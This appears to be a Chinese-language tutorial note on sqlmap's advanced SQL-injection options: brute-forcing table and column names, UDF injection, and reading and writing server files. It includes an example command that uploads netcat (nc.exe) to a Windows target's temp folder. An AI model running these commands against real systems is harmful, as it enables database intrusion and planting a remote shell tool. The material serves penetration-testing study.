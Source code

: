 ​			

# 特殊情况

> 出现一下是那种情况, `--tables ` 和 `--columns`不能用了, 
>
> - DBMS 是 **< 5.0** 版本的 MySQL，它们不具备 `information_schema`。
> - DBMS 是微软的 Access 数据库，并且其中的系统表 `MSysObjects` 默认设置不可读。
> - 当前会话用户对 DBMS 中存储数据表定义的系统表没有读权限
>
> 所以用 `--common-tables`  和 `--common-columns`暴力破解 表 和 列 . 



## 自定义函数注入

```
--udf-inject
--shared-lib
```

[点击查看: 参考](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)



# 针对文件系统操作

> 针对的数据库如下:
>
> 1. MySQL
> 2. PostgreSQL
> 3. Microsoft SQL Server

```
# 读取数据库文件系统
--file-read

# 向文件系统写入内容
--file-write

# 向文件系统上传文件
--file-dest
```

```
# 网上的例子:
$ file /software/nc.exe.packed 
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32
-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" -\
-file-write "/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1
```

